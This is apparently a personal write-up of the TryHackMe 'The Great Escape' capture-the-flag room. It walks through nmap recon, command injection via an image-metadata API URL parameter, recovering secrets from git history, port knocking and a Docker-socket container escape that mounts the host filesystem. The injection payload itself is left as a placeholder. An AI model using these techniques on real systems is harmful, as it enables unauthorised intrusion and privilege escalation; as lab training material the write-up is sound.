


# The Great Escape - Writeup

### Overview

This is my writeup for the "The Great Escape" CTF.  This challenge was a lot of fun, but very difficult (as you will see).  I would recommend this if you have completed other docker-related CTFs - you will definitely find this a lot easier than I did.

### How to Access

I completed this through TryHackMe.  I'm not aware of this being hosted anywhere else but if it is then I will amend this guide.

Link to the room
* https://tryhackme.com/room/thegreatescape

## Steps

There are obviously multiple ways to do this challenge and I would strongly recommend that you look at other published writeups to learn the different ways you can tackle this, especially the final part.

### A Simple Web App

*Start off with a simple webapp.  Can you find the hidden flag?*

**HINT**: A well-known file may offer some help.

The first thing I did was to see what was happening on the machine.  I used `nmap` for this:

```
# Nmap 7.91 scan initiated Wed Feb 17 20:15:27 2021 as: nmap -sC -sV -oN initial_scan 10.10.148.224
Nmap scan report for 10.10.148.224
Host is up (0.048s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings:
|   GenericLines:
|_    +9%SWIE/at-*u5d[k,%Z
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
|_http-trane-info: Problem with XML parsing of /evox/about
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.91%I=7%D=2/17%Time=602D796D%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,16,"\+9%SWIE/at-\*u5d\[k,%Z\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 17 20:18:41 2021 -- 1 IP address (1 host up) scanned in 193.73 seconds
```

From the above, it shows that the machine is open on ports 22 (ssh) and 80 (web page).  So, I go check out the website.  While I did this, I was running GoBuster in the background to check for any funky directories on the primary site, but everything it tried returned a `200` status code.


There wasn't a whole lot to this site (on the face of it at least); just a homepage, a login/sign-up page.  Looking at the hint, I realised that the site may have a "robots.txt" file, and, sure enough, it did!

```
User-agent: *
Allow: /
Disallow: /api/
```

I then decided to run GoBuster on the `/api` portion of the site, but to no avail.  The *robots.txt* file does indicate another page: `/exif-util`, so I decided to have a look:



This appeared to be a file upload for images.  After trying a bunch of file uploads with various formats, I decided to give up on this portion and do some more research.

I decided to look into other well-known practices for building websites and stumbled across an article which detailed a standard in which devs place a *security.txt* file within the .well-known directory.  I now realised what the clue was hinting at.

Navigating to this file gave me this text:

```
Hey you found me!
```

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

```
Ping /api/fl46 with a HEAD request for a nifty treat.
```

Nice!  I decided to breakout `curl` for this next part:

```
$ curl -I http://10.10.148.224/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Wed, 17 Feb 2021 20:32:40 GMT
Connection: keep-alive
flag: THM{b80**************************ad4}
```

And that was flag 1.

### Root! Root?

*There's a flag hidden by root on one of the machines.  Can you find it?*

**HINT**: Silly devs leaving their backups lying around...

After some extensive head scratching, I decided the best option was to try and play about with the API using this `/exif-util` page.  When I uploaded an image using a URL, it returned something like this:

```
EXIF:
----------------------
[PNG-IHDR] Image Width - 600
[PNG-IHDR] Image Height - 300
[PNG-IHDR] Bits Per Sample - 8
[PNG-IHDR] Color Type - True Color with Alpha
[PNG-IHDR] Compression Type - Deflate
[PNG-IHDR] Filter Method - Adaptive
[PNG-IHDR] Interlace Method - No Interlace
[PNG-sRGB] sRGB Rendering Intent - Perceptual
[PNG-gAMA] Image Gamma - 0.455
[PNG-pHYs] Pixels Per Unit X - 3778
[PNG-pHYs] Pixels Per Unit Y - 3778
[PNG-pHYs] Unit Specifier - Metres
[File Type] Detected File Type Name - PNG
[File Type] Detected File Type Long Name - Portable Network Graphics
[File Type] Detected MIME Type - image/png
[File Type] Expected File Name Extension - png

XMP:
----------------------</code></pre>

Going into the console, on the network tab, I saw that there was a call being made to the API.  I then confirmed this using curl and, sure enough, I got the same output:

<pre><code>$ curl http://10.10.148.224/api/exif?url=http:%2F%2F10.10.148.224%2F_nuxt%2Fimg%2Flogo-light.49baa3d.png
EXIF:
----------------------
[PNG-IHDR] Image Width - 600
[PNG-IHDR] Image Height - 300
[PNG-IHDR] Bits Per Sample - 8
[PNG-IHDR] Color Type - True Color with Alpha
[PNG-IHDR] Compression Type - Deflate
[PNG-IHDR] Filter Method - Adaptive
[PNG-IHDR] Interlace Method - No Interlace
[PNG-sRGB] sRGB Rendering Intent - Perceptual
[PNG-gAMA] Image Gamma - 0.455
[PNG-pHYs] Pixels Per Unit X - 3778
[PNG-pHYs] Pixels Per Unit Y - 3778
[PNG-pHYs] Unit Specifier - Metres
[File Type] Detected File Type Name - PNG
[File Type] Detected File Type Long Name - Portable Network Graphics
[File Type] Detected MIME Type - image/png
[File Type] Expected File Name Extension - png

XMP:
----------------------
```

I then began to run a bunch of other stuff to confirm that they are interpreted by the URL.  I didn't appear that the system had python, netcat, or anything else installed - except curl and git.

I then remembered that this section is talking about backups.  Going back to notes I made earlier, I realised that *.bak.txt* was specified in the *robots.txt* file.  These *.bak* files are mostly created by a program that needs to store backups.  Although, I had a feeling that this may have potentially been created  left accidentally by one of the developers.

I tried looking for various backup files for each of the pages on the site and eventually stumbled across the *.bak* file for exif-util:



I continued to try some more combos with the urls I found earlier but I didn't get anywhere.

I created a short Python script so I could execute this from the terminal (just to make my life easier, I was almost at my wits end at this point).

I **eventually** discovered...

(insert injecting stuff)

So now I know that I am *root* on this machine.  There is also a suspicious *dev-note.txt* file in the `/root` directory.  A simple `cat` gave this:

```
$ python3 url_inject.py "10.10.148.224" "cat /root/dev-note.txt"
Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

Finally, a username (*hydra*) and password (*fluffybunnies123*).  I attempted to SSH into the machine as *root* and as *hydra*, however, SSH was acting very strange - another rabbit hole.

Looking at the root directory again, I noticed a `.git` directory.  Expanding the log gives:

```
$ python3 url_inject.py "10.10.148.224" "cd /root; git log"     
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

It seems that *hydra* has put a flag in the bottom commit...

```
$ python3 url_inject.py "10.10.148.224" "cd /root; git checkout a3d30a7d0510dc6565ff9316e3fb84434916dee8; ls -la"
               HEAD is now at a3d30a7 Added the flag and dev notes
total 40
drwx------ 1 root root 4096 Feb 17 21:18 .
drwxr-xr-x 1 root root 4096 Jan  7 22:14 ..
lrwxrwxrwx 1 root root    9 Jan  6 20:51 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 1 root root 4096 Feb 17 21:19 .git
-rw-r--r-- 1 root root   53 Jan  6 20:51 .gitconfig
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  213 Feb 17 21:18 dev-note.txt
-rw-r--r-- 1 root root   75 Feb 17 21:18 flag.txt
```

The above shows that there are two text files; a flag (thank god) and a previous version of *dev-note*.

```
$ python3 url_inject.py "10.10.148.224" "cd /root; cat dev-note.txt"
Hey guys,

I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.

Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.

Cheers,

Hydra
```

```
$ python3 url_inject.py "10.10.148.224" "cd /root; cat flag.txt"
               You found the root flag, or did you?

THM{0cb**************************876}`
```

### The Great Escape

*You thought you had root.  But the root on a docker container isn't all that helpful.  Find the secret flag.*

Unfortunately, there is no hint for this one.  Great.  Looking back at the output from *dev-note.txt*, in the previous section, it looks like we can use port knocking on ports 42, 1337, 10420, 6969, and 63000 to check for a docker tcp port.

```
$ curl 10.10.148.224:<port> -m 1
```

I checked this worked with `nmap`, but no port opened.  I then used the same port knocking technique with `netcat` and it opened port 2375.  

I had never used docker before so I did some research into the different commands I could use.  I found I could list files similarly to a normal terminal.

I didn't really know how to proceed at this point, so I decided to take a break and come back to it the next day.  I watched some other docker-related CTF tutorials and found that you can mount an image file using `docker run`.  I first had a look to see if there were any image files available.

```
$ DOCKER_HOST=tcp://10.10.148.224:2375 docker image ls
REPOSITORY                                    TAG       IMAGE ID       CREATED        SIZE
exif-api-dev                                  latest    4084cb55e1c7   4 hours ago    214MB
exif-api                                      latest    923c5821b907   5 hours ago    163MB
frontend                                      latest    577f9da1362e   5 hours ago    138MB
endlessh                                      latest    7bde5182dc5e   24 hours ago   5.67MB
nginx                                         latest    ae2feff98a0c   3 weeks ago    133MB
debian                                        10-slim   4a9cd57610d6   3 weeks ago    69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   4 weeks ago    103MB
alpine                                        3.9       78a2ce922f86   8 months ago   5.55MB
```

Then using alpine, I mounted the image onto the `mnt/host` directory within the docker container.  I then grabbed an interactive session with `sh`:

```
$ DOCKER_HOST=tcp://$TARGET_IP:2375 docker run -it -v /:/mnt/host alpine:3.9 /bin/sh
```

I navigated to this directory and had a look around.  I found there was a `root` directory which contained the final flag...

```
$ ls -la /root
total 24
drwx------    3 root     root          4096 Jan  6 22:37 .
drwxr-xr-x   22 root     root          4096 Jan  6 16:44 ..
lrwxrwxrwx    1 root     root             9 Jan  6 17:22 .bash_history -> /dev/null
-rw-r-----    1 root     root          3106 Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root          4096 Jan  6 22:35 .local
-rw-r-----    1 root     root           148 Aug 17  2015 .profile
-rw-------    1 root     root            74 Jan  6 22:37 flag.txt
$ cat /root/flag.txt
Congrats, you found the real flag!

THM{c62**************************724}
```

And that's it!

### Summary and Feedback

This was a very hard challenge.  It took me a total of around 6 hours to complete this (including research) as I had never used docker in a CTF before.  The first two flags were fairly easy to get (thank you Python)
